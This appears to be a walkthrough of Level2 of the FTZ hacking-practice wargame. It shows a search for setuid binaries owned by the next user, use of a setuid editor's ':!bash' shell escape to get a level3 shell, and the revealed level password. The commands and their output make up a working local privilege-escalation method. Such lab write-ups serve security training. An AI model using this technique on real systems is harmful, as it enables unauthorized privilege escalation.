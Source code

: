 # Level2

`[level2@ftz level2]$ cat hint`

텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...

`[level2@ftz level2]$ find / -user level3 -perm -4000 2>/dev/null`

/usr/bin/editor

`[level2@ftz level2]$ ls -l /usr/bin/editor`

-rwsr-x---    1 level3   level2      11651 Aug 19  2014 /usr/bin/editor



`[level2@ftz level2]$ which vi`

alias vi='vim'
        
/usr/bin/vim

`[level2@ftz level2]$ ls -l /bin/vi`

-rwxr-xr-x    1 root     root       456108 Feb 12  2003 /bin/vi

`[level2@ftz level2]$ ls -l /usr/bin/vim`

-rwxr-xr-x    1 root     root      1893740 Feb 12  2003 /usr/bin/vim



`[level2@ftz level2]$ /usr/bin/editor`

`:!id`

uid=3003(level3) gid=3002(level2) groups=3002(level2)

Hit ENTER or type command to continue

`:!bash`



`[level3@ftz level2]$ my-pass`

Level3 Password is "can you fly?".
